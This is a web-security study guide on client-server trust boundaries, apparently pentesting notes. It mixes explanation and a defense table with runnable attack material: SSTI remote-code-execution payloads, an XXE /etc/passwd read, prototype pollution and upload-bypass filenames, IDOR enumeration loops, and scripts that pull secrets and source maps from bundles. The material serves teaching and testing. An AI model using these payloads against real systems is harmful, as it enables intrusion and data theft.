


# 🖥️ Frontend-Backend Model — Trust Boundaries & Attack Patterns

> **Core Principle:** The client is **always controlled by the attacker**. Every byte sent from the browser must be considered adversarial.

---

## 📚 Table of Contents

1. [How Frontend & Backend Communicate](#how-frontend--backend-communicate)
2. [HTTP Request/Response Cycle](#http-requestresponse-cycle)
3. [The Trust Boundary](#the-trust-boundary)
4. [Client-Side vs Server-Side Validation](#client-side-vs-server-side-validation)
5. [Frontend-to-Backend Attack Patterns](#frontend-to-backend-attack-patterns)
6. [Serialization Formats](#serialization-formats)
7. [Template Rendering Attacks](#template-rendering-attacks)
8. [Manipulating Frontend State](#manipulating-frontend-state)
9. [Frontend Source Code Analysis](#frontend-source-code-analysis)
10. [Webpack Bundles & Source Maps](#webpack-bundles--source-maps)

---

## 🔌 How Frontend & Backend Communicate

Modern web apps use several communication mechanisms. Each has distinct security implications.

### 1. JSON API (Most Common Today)

```
Browser → fetch('/api/users', {method:'POST', body: JSON.stringify({name:'Alice'})})
                    ↓
POST /api/users HTTP/1.1
Host: target.com
Content-Type: application/json
Authorization: Bearer eyJ...

{"name": "Alice"}
                    ↓
Server processes JSON, returns:
{"id": 1, "name": "Alice", "role": "user"}
```

**Security notes:**
- JSON is parsed server-side — injection via JSON values possible
- Content-Type must match body or some parsers behave unexpectedly
- No CSRF protection by default (custom headers provide some protection)

### 2. HTML Form POST (Legacy but Widespread)

```html
<form action="/login" method="POST">
  <input type="text" name="username">
  <input type="password" name="password">
  <input type="hidden" name="_csrf" value="abc123">
  <button type="submit">Login</button>
</form>
```

```
POST /login HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username=admin&password=secret&_csrf=abc123
```

**Security notes:**
- Hidden fields are completely attacker-controlled (visible in DevTools/Burp)
- CSRF token must be server-validated
- Vulnerable to CSRF if token missing or not validated

### 3. WebSockets

```javascript
// Client establishes persistent bidirectional connection
const ws = new WebSocket('wss://target.com/chat');
ws.onopen = () => ws.send(JSON.stringify({type: 'auth', token: 'Bearer eyJ...'}));
ws.onmessage = (e) => console.log(JSON.parse(e.data));
```

**Security notes:**
- WebSocket handshake uses HTTP Upgrade — CSRF possible at upgrade time
- No same-origin policy enforcement on WS — must validate Origin header
- Messages can be intercepted and replayed
- Burp Suite can intercept WebSocket messages

```bash
# Intercept WebSocket in Burp:
# Proxy → WebSockets history tab
# Can modify, replay, send to Intruder
```

### 4. Server-Sent Events (SSE)

```javascript
const evtSource = new EventSource('/api/events');
evtSource.onmessage = (e) => console.log(e.data);
```

One-directional server → client. Useful for real-time feeds. Less commonly audited.

### 5. GraphQL over HTTP

```bash
POST /graphql
Content-Type: application/json

{
  "query": "mutation { updateUser(id: 1, role: \"admin\") { id role } }",
  "variables": {}
}
```

---

## 🔄 HTTP Request/Response Cycle

Full anatomy of a web request from application perspective:



### Request Headers That Matter to Security

```http
GET /admin/dashboard HTTP/1.1
Host: target.com                          ← Host header injection
Cookie: session=abc123; role=user         ← Cookie manipulation
Authorization: Bearer eyJhbGciOiJub25lI  ← JWT tampering
X-Forwarded-For: 127.0.0.1               ← IP spoofing
X-Forwarded-Host: attacker.com           ← Cache poisoning
X-Custom-IP-Authorization: 127.0.0.1     ← IP bypass
Content-Type: application/json           ← Type confusion attacks
Origin: https://trusted-site.com         ← CORS bypass
Referer: https://target.com/admin        ← Referer-based CSRF bypass
User-Agent: Mozilla/5.0                  ← WAF bypass via UA manipulation
```

---

## ⚠️ The Trust Boundary



### The Golden Rule

> **Everything above the trust boundary can be modified by the attacker. Everything below must be independently validated.**

This means:
- A JavaScript check that says "only admins see this button" is cosmetic
- A cookie value of `role=user` can be changed to `role=admin`
- A hidden form field with `price=100` can be changed to `price=1`
- A `Content-Length` header can be spoofed
- A `User-Agent` header can be anything

---

## ✅ Client-Side vs Server-Side Validation

### Why Client-Side Validation Is Purely UX

```javascript
// Frontend validation (JavaScript) — easily bypassed
function validateForm() {
    const price = document.getElementById('price').value;
    if (price < 0) {
        alert('Price cannot be negative!');
        return false;  // Stops form submission in browser
    }
    return true;
}
```

**Bypass:** Open Burp Suite, submit form, catch the POST request, change the price to `-100`. The server receives `-100` because **Burp intercepts after** the JavaScript runs.

```bash
# Bypass in Burp Suite Intercept:
POST /checkout HTTP/1.1
price=100&qty=1  →  price=-100&qty=1
```

```javascript
// Bypass in browser console:
// Remove the validation attribute
document.getElementById('price').removeAttribute('min');
document.getElementById('price').value = -100;
document.forms[0].submit();

// Or directly bypass via fetch:
fetch('/checkout', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({price: -100, qty: 1})
});
```

### What Server-Side Validation Looks Like

```python
# Correct server-side validation (Django example)
from decimal import Decimal
from django.core.exceptions import ValidationError

class CheckoutView(APIView):
    def post(self, request):
        price = Decimal(request.data.get('price', 0))
        qty = int(request.data.get('qty', 1))
        
        if price <= 0:
            raise ValidationError("Price must be positive")
        if qty <= 0 or qty > 100:
            raise ValidationError("Invalid quantity")
        
        # Re-fetch price from database (never trust client-submitted price!)
        product = Product.objects.get(id=request.data['product_id'])
        actual_price = product.price * qty  # Always compute server-side
        
        process_order(request.user, product, qty, actual_price)
```

---

## 💥 Frontend-to-Backend Attack Patterns

### 1. Parameter Tampering

```bash
# Original request
POST /transfer
amount=100&to_account=987654&from_account=123456

# Tampered: change destination or amount
POST /transfer
amount=10000&to_account=ATTACKER_ACCT&from_account=VICTIM_ACCT

# IDOR via parameter change
GET /api/invoices/1001     → Shows attacker's own invoice
GET /api/invoices/1002     → Shows another user's invoice (if no auth check)
```

### 2. Hidden Field Manipulation

```html
<!-- Developer hides business logic in form -->
<form action="/checkout" method="POST">
  <input type="hidden" name="user_id" value="42">
  <input type="hidden" name="price" value="99.99">
  <input type="hidden" name="discount" value="0">
  <input type="hidden" name="is_vip" value="false">
  <input type="submit" value="Buy">
</form>
```

**Attack in browser DevTools:**
```javascript
// Open DevTools → Elements → Find hidden inputs → Double-click to edit
document.querySelector('[name="price"]').value = "0.01";
document.querySelector('[name="discount"]').value = "0.99";
document.querySelector('[name="is_vip"]').value = "true";
document.forms[0].submit();
```

### 3. JavaScript Logic Bypass

```javascript
// App uses client-side role check before making API call
async function deleteUser(userId) {
    if (currentUser.role !== 'admin') {
        showError('Permission denied');
        return;  // Never reaches server
    }
    await fetch(`/api/users/${userId}`, {method: 'DELETE'});
}
```

**Bypass: Call API directly, skipping JS check:**
```bash
curl -X DELETE https://target.com/api/users/5 \
  -H "Cookie: session=victim_session_token"
# If server doesn't check role → 200 OK, user deleted
```

### 4. Forced Browsing

Accessing URLs directly that the UI doesn't expose:

```bash
# App only shows admin link if is_admin=true in JS
# But endpoint exists regardless:
curl https://target.com/admin/export-users -H "Cookie: session=normal_user_session"

# Discovery via:
# 1. Sitemap.xml: curl https://target.com/sitemap.xml
# 2. robots.txt:  curl https://target.com/robots.txt
# 3. JS source:   grep for fetch/axios/XHR calls in bundle
# 4. Directory bruteforce:
ffuf -u https://target.com/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
ffuf -u https://target.com/admin/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
```

### 5. Mass Parameter Submission

```bash
# Register endpoint accepts: name, email, password
# But underlying ORM has many more fields on User model

# Normal registration:
POST /register
{"name":"Alice","email":"alice@example.com","password":"secret123"}

# Attack: submit extra fields
POST /register
{
  "name": "Alice",
  "email": "alice@example.com",
  "password": "secret123",
  "role": "admin",
  "is_verified": true,
  "credits": 99999,
  "subscription_tier": "enterprise"
}
```

**If app uses `User.create(request.body)` without filtering → mass assignment vulnerability.**

### 6. HTTP Method Override

Some apps/frameworks allow method override via headers or body parameters:

```bash
# Server only accepts POST but processes as DELETE:
POST /api/users/5
X-HTTP-Method-Override: DELETE

# Or via body:
POST /api/users/5
_method=DELETE
```

---

## 📦 Serialization Formats

### application/x-www-form-urlencoded

```
name=Alice+Smith&age=25&role=user
```
- Spaces encoded as `+` or `%20`
- Special chars URL-encoded
- Flat key-value only (no nesting)
- **Attack:** Parameter pollution: `role=user&role=admin`

### multipart/form-data

```
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="username"

Alice
------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="photo.jpg"
Content-Type: image/jpeg

<binary data>
------WebKitFormBoundary--
```

**Attacks:**
```bash
# Content-Type bypass for file upload
filename="shell.php.jpg"                    # Double extension
filename="shell.php%00.jpg"                 # Null byte (old PHP)
Content-Type: image/jpeg  (with PHP content) # MIME type lie
filename="../../../shell.php"               # Path traversal
filename="shell.php "                       # Trailing space (Windows)
filename="shell.php."                       # Trailing dot (Windows)
```

### application/json

```json
{
  "user": {
    "name": "Alice",
    "__proto__": {"admin": true},
    "constructor": {"prototype": {"admin": true}}
  }
}
```

**Prototype pollution payload.**

### XML / application/xml

```xml
<!-- XXE (XML External Entity) -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>
  <name>&xxe;</name>
</user>
```

---

## 🎨 Template Rendering Attacks

### SSR Template Injection (SSTI)

```
User input → directly concatenated into template string → template engine executes it
```

#### Identifying the Template Engine

```
{{7*7}}     → 49        (Jinja2, Twig)
${7*7}      → 49        (FreeMarker, Thymeleaf)
<%= 7*7 %>  → 49        (ERB, EJS)
#{7*7}      → 49        (Pug/Jade)
*{7*7}      → 49        (Thymeleaf)
```

#### Jinja2 RCE Payload

```python
# Read file
{{''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}

# Execute command (older Python)
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}

# Execute command (via subprocess)

  
    {{x()._module.__builtins__['__import__']('os').popen('id').read()}}
  

```

#### Twig (PHP) RCE Payload

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
```

#### FreeMarker RCE Payload

```
<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id")}
```

### Client-Side Template Injection (CSTI)

Affects Angular, Vue when user input is processed inside template expressions:

```html
<!-- Angular 1.x CSTI to XSS -->
<!-- URL: /search?q={{constructor.constructor('alert(1)')()}} -->

<h1>Results for: {{constructor.constructor('alert(1)')()}}</h1>
```

---

## 🔧 Manipulating Frontend State

### Browser DevTools Techniques

```javascript
// 1. Read all cookies
document.cookie

// 2. Read localStorage
Object.keys(localStorage).forEach(k => console.log(k, localStorage.getItem(k)));

// 3. Modify a variable
window.currentUser.role = 'admin';
window.currentUser.isAdmin = true;

// 4. Decode JWT (payload is just base64)
const token = localStorage.getItem('access_token');
const payload = JSON.parse(atob(token.split('.')[1]));
console.log(payload); // { "user_id": 1, "role": "user", "exp": 1700000000 }

// 5. Remove client-side auth check and call API
delete window.AuthGuard;
fetch('/api/admin/users').then(r => r.json()).then(console.log);
```

### Cookie Manipulation

```javascript
// In DevTools → Application → Cookies → Click value to edit
// Or via JavaScript:
document.cookie = "role=admin; path=/";
document.cookie = "is_premium=true; path=/";

// If httpOnly flag is set, JS cannot access → only interceptable via Burp
```

### Burp Suite Request Manipulation

```
1. Set Burp as proxy (127.0.0.1:8080)
2. Enable Intercept
3. Submit form in browser
4. Modify in Burp before forwarding:

Original:
POST /api/order HTTP/1.1
{"product_id":1,"qty":1,"price":99.99,"coupon":""}

Modified:
{"product_id":1,"qty":1,"price":0.01,"coupon":"STAFF_DISCOUNT","user_role":"admin"}
```

### Replay Attack via cURL

```bash
# Capture request from Burp → Right-click → Copy as curl
curl -X POST 'https://target.com/api/transfer' \
  -H 'Cookie: session=abc123def456' \
  -H 'Content-Type: application/json' \
  -H 'X-CSRF-Token: deadbeef' \
  -d '{"amount":1000,"to":"attacker_acct"}'

# Automate IDOR enumeration
for id in $(seq 1 1000); do
    curl -s "https://target.com/api/users/$id" \
      -H "Cookie: session=attacker_session" \
      -o "users/$id.json" -w "%{http_code} → $id\n"
done
```

---

## 🔍 Frontend Source Code Analysis

What to look for when reviewing JavaScript source code:

### Finding API Endpoints

```javascript
// In browser: Open Sources → find main bundle → search for:
// "api/" OR "fetch(" OR "axios." OR "XMLHttpRequest"
// Common patterns in React apps:
const API_BASE = 'https://api.target.com/v1';
fetch(`${API_BASE}/users/${userId}/profile`);
axios.post(`${API_BASE}/admin/createUser`, {...});
```

```bash
# Automated: download and search bundle
curl -s https://target.com/static/js/main.chunk.js | \
  grep -oE '"/[a-zA-Z0-9/_-]{3,50}"' | sort -u

# Or with prettier for readability:
curl -s https://target.com/static/js/main.chunk.js | node -e "
  const code = require('fs').readFileSync('/dev/stdin','utf8');
  const endpoints = code.match(/['\"]\/api\/[^'\"]+['\"]/g);
  console.log([...new Set(endpoints)].join('\n'));
"
```

### Finding Hardcoded Secrets

```bash
# Search for common secret patterns:
curl -s https://target.com/static/js/main.js | \
  grep -iE "(api_key|apikey|secret|password|token|aws_|stripe_|firebase)" | head -50

# Regex for common key formats:
grep -oE 'sk_live_[a-zA-Z0-9]{32,}'    # Stripe secret key
grep -oE 'AKIA[A-Z0-9]{16}'            # AWS access key
grep -oE 'AIza[0-9A-Za-z_-]{35}'       # Google API key
grep -oE '"[a-z]{3,15}":"[a-f0-9]{32,64}"'  # Generic tokens
```

### Identifying Auth Logic

```javascript
// Look for role checks — these reveal what privileged actions exist
if (user.role === 'admin') { ... }
if (user.permissions.includes('delete_users')) { ... }
if (user.subscription === 'enterprise') { ... }

// These tell you:
// 1. What roles exist (admin, moderator, staff, enterprise)
// 2. What actions are gated (delete_users, export_data, etc.)
// 3. Try accessing those actions directly via API
```

### Feature Flags & Debug Modes

```javascript
// Look for:
if (process.env.NODE_ENV === 'development') { debugMode = true; }
if (window.DEBUG_MODE) { showAdminPanel(); }
if (location.hostname === 'localhost') { skipAuth(); }

// Exploit:
window.DEBUG_MODE = true;
// Or add debug param: ?debug=true&admin=true
```

---

## 📦 Webpack Bundles & Source Maps

### What Webpack Bundles Contain

Modern SPAs compile all JavaScript into minified bundles. These bundles can contain:

- All API endpoint URLs
- Environment variables baked in at build time
- Business logic (price calculations, discount rules)
- Feature flags
- Internal tool references
- Sometimes: API keys, secrets (misconfiguration)

### Finding and Analyzing Bundles

```bash
# Step 1: Identify JS bundles
curl -s https://target.com | grep -oE 'src="[^"]*\.js"' | sort -u

# Or check Network tab in DevTools → Filter by JS

# Step 2: Download all bundles
wget -r -l1 -A "*.js" https://target.com/static/js/

# Step 3: Format and analyze
# Using js-beautify:
npm install -g js-beautify
js-beautify main.chunk.js -o main_readable.js

# Step 4: Search for interesting patterns
grep -n "api_key\|secret\|password\|token\|internal\|admin\|debug" main_readable.js
grep -n "fetch\|axios\|XMLHttpRequest" main_readable.js | grep -v "node_modules"
```

### Source Maps

Source maps (`.js.map` files) **expose original unminified source code**.

```bash
# Check if source maps are exposed:
curl -I https://target.com/static/js/main.chunk.js.map
# HTTP/1.1 200 OK ← Source map exposed!

# Download and extract
curl -s https://target.com/static/js/main.chunk.js.map | python3 -c "
import json, sys, os

data = json.load(sys.stdin)
sources = data.get('sources', [])
contents = data.get('sourcesContent', [])

for i, (src, content) in enumerate(zip(sources, contents)):
    if content:
        path = f'extracted/{src.lstrip(\"./\")}'
        os.makedirs(os.path.dirname(path), exist_ok=True)
        with open(path, 'w') as f:
            f.write(content)
        print(f'Extracted: {path}')
"
```

### Automated Tool: source-map-explorer / sourcemapper

```bash
# Install sourcemapper
pip install sourcemapper  # Python tool

# Or use the Node.js version
npx source-map-explorer main.chunk.js main.chunk.js.map

# Full automation with Burp extension: JS Link Finder
# or use: https://github.com/denandz/sourcemapper
sourcemapper -url https://target.com/static/js/main.chunk.js.map -output ./extracted/
```

### Real-World Finding: API Keys in Bundles

```javascript
// Common pattern in React apps using environment variables
// Developer set REACT_APP_STRIPE_KEY in .env → bundled into JS!

// In minified code:
e.STRIPE_KEY="sk_live_XXXXXXXXXXXXXXXXXXXX"

// In readable form (after source map extraction):
const stripeConfig = {
    publishableKey: process.env.REACT_APP_STRIPE_KEY,  // pk_live_... (OK)
    secretKey: process.env.REACT_APP_STRIPE_SECRET,    // sk_live_... (NEVER DO THIS)
};
```

---

## 🛡️ Defense Recommendations

| Vulnerability | Defense |
|---------------|---------|
| Parameter tampering | Server-side validation of all inputs |
| Mass assignment | Explicit allowlist of permitted fields |
| Hidden field manipulation | Never store trust data in hidden fields; use server-side session |
| SSTI | Never concatenate user input into template strings |
| Hardcoded secrets | Use environment variables at runtime, not build time |
| Source map exposure | Disable source map generation for production builds |
| Client-side auth bypass | Always enforce authorization server-side |
| Cookie manipulation | Use httpOnly, Secure, SameSite flags; sign cookie values |
| JWT tampering | Validate signature and algorithm on every request |

### Secure Next.js / React Build Config

```javascript
// next.config.js — disable source maps in production
module.exports = {
  productionBrowserSourceMaps: false,  // Don't expose source maps
  env: {
    // Only NEXT_PUBLIC_ vars are bundled — never expose secrets!
    // BAD:  NEXT_PUBLIC_DB_PASSWORD: process.env.DB_PASSWORD
    // GOOD: Keep sensitive vars server-side only
  }
};
```

```bash
# Webpack: disable source maps
# webpack.config.js
module.exports = {
  devtool: false,  // or 'hidden-source-map' (local only, not served)
};
```

---

## 📚 References

- OWASP Testing Guide: [Testing for Client-Side](https://owasp.org/www-project-web-security-testing-guide/)
- PortSwigger: [Client-Side Template Injection](https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs)
- HackTricks: [Parameter Tampering](https://book.hacktricks.xyz/)
- Tool: [Retire.js](https://retirejs.github.io/) — finds vulnerable JS libraries
- Tool: [truffleHog](https://github.com/trufflesecurity/trufflehog) — finds secrets in code
- Tool: [LinkFinder](https://github.com/GerbenJavado/LinkFinder) — extracts endpoints from JS
